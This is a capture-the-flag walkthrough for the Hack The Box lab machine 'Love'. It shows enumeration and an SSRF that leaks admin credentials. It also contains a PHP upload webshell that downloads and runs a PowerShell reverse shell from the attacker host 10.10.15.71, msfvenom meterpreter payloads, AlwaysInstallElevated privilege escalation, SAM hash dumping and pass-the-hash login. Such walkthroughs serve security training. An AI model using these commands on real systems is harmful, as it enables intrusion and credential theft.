

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.239 love.htb

**nmap scan:**
```bash
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq: 
|_    Host '10.10.15.71' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-06-25T08:37:23+00:00; -5h04m42s from scanner time.
| tls-alpn: 
|_  http/1.1
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized
```

* Information leak from https ssl certificate. 
  * **Subdomain:** `staging.love.htb` 
  * **Username:** `roy@love.htb`
* No other subdomain found: `ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -H 'Host: FUZZ.love.htb' -u http://love.htb/ -ac -c -v`
* port `5000` and `443` gives "403 Forbidden"
* Can't connect to SMB without password.

* **Host: `love.htb`** asking for username:password

  

* **Subdomain `staging.love.htb`** have signup option which don't go anywhere,

  

but there is a `/beta.php` which allows to fetch urls, and also allows SSRF.



with that we can access to port `5000` and `443` which gives "403 Forbidden", because both are on save host.

port `443` https don't response anything but port `5000` response with admin creds.


<!--admin:@LoveIsInTheAir!!!!-->

* successful login to `http://love.htb/admin` with found creds. *It was just a guess. If I don't get admin login in `/admin`, than I'll run gobuster.*

# Foothold

## File upload to RCE

Found file upload option in `/admin/voters.php` and `/admin/candidates.php`

Try to upload php shell from `/voters.php`
```php
<?php echo exec("whoami"); ?>
```



and file uploaded successfully without any restriction and upload file found in the `/images` directory





Getting reverse shell with [PayloadsAllTheThings powershell payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) and [nishang revshell ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Create `shell.php`, which Invoke nishang revshell ps1 script from http server.
```bash
<?php echo exec("powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.71/powerShellTcp.ps1')"); ?>
```

upload `shell.php`, start http server and get reverse shell.



Get msf shell with msfvenom payload
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.71 LPORT=4141 -f psh -o msf_shell.ps1
```

Execute
```bash
IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.71/msf_shell.ps1')
```

# Privesc

## abusing `AlwaysInstallElevated` policy

Running winpeas found **AlwaysInstallElevated** enable.



**AlwaysInstallElevated** If these 2 registers are enabled (value is 0x1), then users of any privilege can install (execute) **`*.msi`** files as **`NT AUTHORITY\SYSTEM`**.
```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```



* Exploit from [hacktricks.xyz](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated)
* Multiple ways to exploit from [hackingarticles.in](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/)


**Exploit with metasploit**
```bash
exploit/windows/local/always_install_elevated
```



**Dump NTLM hash**
```bash
meterpreter > load kiwi
meterpreter > lsa_dump_sam

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: aab42ca009fed69fa5ee57c52cf5bcf1

#login with evil-winrm
evil-winrm -u Administrator -H aab42ca009fed69fa5ee57c52cf5bcf1 -i 10.10.10.239
```
